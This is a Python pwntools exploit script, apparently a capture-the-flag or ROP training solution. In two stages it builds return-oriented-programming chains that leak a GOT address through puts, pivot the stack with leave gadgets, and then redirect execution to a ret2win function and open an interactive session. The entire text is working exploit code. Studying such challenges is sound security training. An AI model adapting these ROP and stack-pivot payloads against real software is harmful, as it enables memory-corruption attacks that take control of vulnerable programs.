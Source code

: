 ```python
io.info("----- First stage ------")
# Message 1
# Version leak with puts and replay pwnme
PL=p64(leak+0x200)     # for rbp
PL+=p64(plt_foothold)  # Call foothold to update the GOT
PL+=p64(g_poprdi)      # set got.foothold to rdi
PL+=p64(got_foothold)  # popped in rdi
PL+=p64(g_ret)         # alignment
PL+=p64(puts)          # send it
PL+=p64(g_poprdi)      # new arg for pwnme
#PL+=p64(leak+0x48)     # for rdi (address of new address)
PL+=p64(leak+0x80)     # for rdi (new address)
PL+=p64(pwnme)         # go back to pwnme

io.sendlineafter(b"> ",PL)

# Message 2 : pivot
PL2 =b"A"*offset
PL2+=p64(leak)   
PL2+=p64(g_leave)
io.sendlineafter(b"> ",PL2)

# Receive the leak of the foothold adresse
io.recvline()
rep = io.recvline().rstrip()
rep = io.recvline().rstrip()
if len(rep) != 6:
    info(rep.hex())
    error("Bad leak adresse length (prob zero in the address). retry plz ")
fh_leak=u64(rep+b"\x00\x00")
info(f"foothold leak=0x{fh_leak:x}")

io.info("----- Second stage ------")

info("Second stage first message...")
io.sendlineafter(b"> ",b"AAAA")
#io.sendline(b"AAAA")
info("Second stage pivot...")
PL3 =b"A"*offset
PL3+=p64(0xdeadbeef)
PL3+=p64(fh_leak+off_ret2win)
io.sendlineafter(b"> ",PL3)
io.interactive()
```






